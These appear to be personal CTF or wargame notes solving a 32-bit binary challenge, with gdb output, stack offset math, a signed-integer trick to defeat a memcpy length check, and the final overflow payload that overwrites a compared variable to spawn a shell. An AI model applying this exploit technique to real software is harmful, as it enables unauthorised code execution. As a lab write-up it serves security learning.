 ```
if (number == 0x574f4c46) 
    execl("/bin/sh", "sh", 0);
```
```
run "8" "AAAA"

   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
=> 0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)

the return of memcpy

0xbffff6b0:	..........	0x41414141	...[1]....	...[2]....
0xbffff6c0:	...[3]....	...[4]....	...[5]....	...[6]....
0xbffff6d0:	...[7]....	...[8]....	...[9]....	0x00000008

the var we compar with located at:

(gdb) x $esp+0x3c
0xbffff6dc:	0x00000008

p/d 0xbffff6dc - 0xbffff6b4 = 40

run "9" $(python -c 'print "A" * 40')

36 is the maximum number of bytes that can be copied into the buffer (9 * 4).

 -2^31 to 2^31 – 1
 ```

The "memcpy" function is vulnerable to buffer overflow

argv1 = 11
argrv1 * 4 = 44

11 = 1011 in base 2

DWORD = 32 bits
```
printf %032d 1011
00000000000000000000000000001011
```

```
00000000000000000000000000001011 = 11
change sign
10000000000000000000000000001011 = -2147483637

signed 2's complement
-2147483637
```

```
unhex 574f4c46 | rev ; echo
FLOW
```

```
r -2147483637 $(python -c 'print "A"*40 + "FLOW"')

i r $ecx
ecx            0x2c	44
```






